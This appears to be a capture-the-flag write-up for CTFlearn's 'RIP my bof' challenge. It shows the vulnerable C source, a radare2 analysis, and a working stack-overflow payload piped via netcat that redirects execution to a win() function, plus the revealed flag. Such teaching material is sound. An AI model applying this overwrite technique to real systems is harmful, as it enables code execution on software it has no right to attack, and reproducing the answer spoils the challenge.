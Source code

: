 # [RIP my bof](https://ctflearn.com/challenge/1011) (30)
Looks like another buffer overflow challenge, we can connect to the server with `netcat`:
```
$ nc thekidofarcrania.com 4902
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffe19350 | 00 00 00 00 00 00 00 00 |
0xffe19358 | 00 00 00 00 00 00 00 00 |
0xffe19360 | 00 00 00 00 00 00 00 00 |
0xffe19368 | 00 00 00 00 00 00 00 00 |
0xffe19370 | ff ff ff ff ff ff ff ff |
0xffe19378 | ff ff ff ff ff ff ff ff |
0xffe19380 | c0 85 ee f7 00 a0 04 08 |
0xffe19388 | 98 93 e1 ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text:
```

Each row here is 8 bytes across, and since we need to overwrite the return address (the last 4 bytes) of this 64 byte block, we will needing a padding of 60 bytes. <br />
However the question still stands of what we need to overwrite this return address with, that's where the [simple-rip.tar.gz](https://ctflearn.com/challenge/download/1011) file comes in. <br />

We can open the `.tar.gz` file with `tar`: <br />
```
$ tar -xvf simple-rip.tar.gz 
pwn-simple-rip/server
pwn-simple-rip/bof2.c
$ cd pwn-simple-rip/
```

Inside the new directory are `bof2.c` and `server`. <br />
`server` can be analyzed with `file`: <br />
```
$ file server 
server: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=be2f490cdd60374344e1075c9dd31060666bd524, not stripped
```

If we execute the `server` binary, we find that it's the same executable being used by the `netcat` server in serving us responses. <br />

We can read the `bof2.c` code to see the source code of the binary: <br />
```
$ cat bof2.c
\#include <stdio.h>
\#include <stdlib.h>
\#include <string.h>
\#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);

void win() {
  system("/bin/cat /flag.txt");
}

void vuln() {
  char padding[16];
  char buff[32];

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Mark the padding with 0xff.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  vuln();
}
```

The chunk of code to really take notice of here is `win()` function:
```
void win() {
	system("/bin/cat /flag.txt");
}
```

It executes the syscall to run a UNIX command, in this case `cat /flag.txt` <br />
We need to redirect the `rip` pointer to this `win()` function to get the flag. <br />

We can get the location in memory of the `win()` function using `radare2` to analyze the binary: <br />
```
$ r2 -A server
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x08048470]> afl
0x080483a8    3 35           sym._init
0x080483e0    1 6            sym.imp.setbuf
0x080483f0    1 6            sym.imp.printf
0x08048400    1 6            sym.imp.gets
0x08048410    1 6            sym.imp.puts
0x08048420    1 6            sym.imp.system
0x08048430    1 6            sym.imp.__libc_start_main
0x08048440    1 6            sym.imp.memset
0x08048450    1 6            sym.imp.sprintf
0x08048460    1 6            sub.__gmon_start___244_460
0x08048470    1 50           entry0
0x080484a3    1 4            fcn.080484a3
0x080484b0    1 2            sym._dl_relocate_static_pie
0x080484c0    1 4            sym.__x86.get_pc_thunk.bx
0x080484d0    4 50   -> 41   sym.deregister_tm_clones
0x08048510    3 52           sym.register_tm_clones
0x08048550    3 34   -> 31   sym.__do_global_dtors_aux
0x08048580    1 6            entry1.init
0x08048586    1 43           sym.win
0x080485b1    1 143          sym.vuln
0x08048640    1 90           sym.main
0x0804869a    1 4            sym.__x86.get_pc_thunk.ax
0x0804869e    4 67           sym.init_visualize
0x080486e1   17 430          sym.visualize
0x08048890    4 93           sym.__libc_csu_init
0x080488f0    1 2            sym.__libc_csu_fini
0x080488f4    1 20           sym._fini
[0x08048470]>
```
Here, we can find `sym.win` resides at address `0x08048586` <br />

Now we can create our payload, 60 `A`s followed by `0x86`, `0x85`, `0x04` and `0x08`: <br />
`python -c 'print "A" * 60 + "\x86\x85\x04\x08" '` <br />
Don't try copying the text directly from the terminal, I tried this and found that the 4 non-ascii bytes would change once copied, instead, we can pipe this directly into `netcat` to act as our input:<br />
```
$ python -c 'print "A" * 60 + "\x86\x85\x04\x08" ' | nc thekidofarcrania.com 4902

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffae93c0 | 00 00 00 00 00 00 00 00 |
0xffae93c8 | 00 00 00 00 00 00 00 00 |
0xffae93d0 | 00 00 00 00 00 00 00 00 |
0xffae93d8 | 00 00 00 00 00 00 00 00 |
0xffae93e0 | ff ff ff ff ff ff ff ff |
0xffae93e8 | ff ff ff ff ff ff ff ff |
0xffae93f0 | c0 95 f0 f7 00 a0 04 08 |
0xffae93f8 | 08 94 ae ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffae93c0 | 41 41 41 41 41 41 41 41 |
0xffae93c8 | 41 41 41 41 41 41 41 41 |
0xffae93d0 | 41 41 41 41 41 41 41 41 |
0xffae93d8 | 41 41 41 41 41 41 41 41 |
0xffae93e0 | 41 41 41 41 41 41 41 41 |
0xffae93e8 | 41 41 41 41 41 41 41 41 |
0xffae93f0 | 41 41 41 41 41 41 41 41 |
0xffae93f8 | 41 41 41 41 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
```

We successfully redirected the instruction pointer `rip` to `0x08048586` and ran the `win()` function, which read the contents of `/flag.txt` <br />

The flag is `CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}` <br />
